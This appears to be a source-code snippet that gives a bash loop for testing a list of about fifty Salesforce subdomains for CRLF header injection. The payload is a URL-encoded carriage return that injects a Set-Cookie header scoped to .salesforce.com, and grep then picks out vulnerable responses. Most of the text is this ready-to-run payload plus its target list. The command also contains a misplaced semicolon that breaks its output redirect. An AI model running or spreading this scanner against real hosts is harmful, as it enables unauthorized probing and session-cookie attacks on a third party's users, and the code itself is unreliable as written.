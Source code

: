

1) salesforce domains save to file:    salesforce.list
2) in terminal paste this command:
 
--cut-here
while read -r line;do curl -s -I "https://$line/%0DSet-Cookie:crlf=injection;domain=.salesforce.com;" | grep '^Set-Cookie' | grep 'injection'; >> request.out;done < salesforce.list
--cut-here
 
the command test domain for domain in the salesforce file and do a curl request + payload (CRLF) , then grep look if there are a match with 2 strings "Set-Cookie" and "injection". If both match shows output with the vulnerable response
 
salesforce.list
 
www.salesforce.com
academic-alliance.salesforce.com
admin.salesforce.com
analyticsplayground.salesforce.com
ap.salesforce.com
ap0.salesforce.com
dcl5-ukb.ap0-ukb.salesforce.com
ap1.salesforce.com
dcl1-ukb.ap1-ukb.salesforce.com
dcl2-ukb.ap1-ukb.salesforce.com
dcl3-ukb.ap1-ukb.salesforce.com
dcl4-ukb.ap1-ukb.salesforce.com
dcl5-ukb.ap1-ukb.salesforce.com
dcl6-ukb.ap1-ukb.salesforce.com
dcl8-ukb.ap1-ukb.salesforce.com
ap2.salesforce.com
ap2-ukb.salesforce.com
dcl2-ukb.ap2-ukb.salesforce.com
dcl3-ukb.ap2-ukb.salesforce.com
dcl4-ukb.ap2-ukb.salesforce.com
dcl5-ukb.ap2-ukb.salesforce.com
dcl6-ukb.ap2-ukb.salesforce.com
dcl8-ukb.ap2-ukb.salesforce.com
ap3.salesforce.com
ap4.salesforce.com
dcl2-ukb.ap4-ukb.salesforce.com
ap5.salesforce.com
dcl8-ukb.ap5-ukb.salesforce.com
ap6.salesforce.com
dcl1-ukb.ap6-ukb.salesforce.com
dcl2-ukb.ap6-ukb.salesforce.com
dcl3-ukb.ap6-ukb.salesforce.com
dcl4-ukb.ap6-ukb.salesforce.com
dcl5-ukb.ap6-ukb.salesforce.com
dcl7-ukb.ap6-ukb.salesforce.com
dcl8-ukb.ap6-ukb.salesforce.com
ap7.salesforce.com
dpl7-syd.ap9-syd.salesforce.com
appexchange.salesforce.com
api.appexchange.salesforce.com
blog.salesforce.com
blogs.salesforce.com
us0odio66akt.2-wt7eam.eu7.bnc.salesforce.com
6wb8n6vme5fa.3-o4hoeai.na20.bnc.salesforce.com
c.salesforce.com
certification.salesforce.com
commercecloud.salesforce.com
app.commercecloud.salesforce.com
images.commercecloud.salesforce.com
community.salesforce.com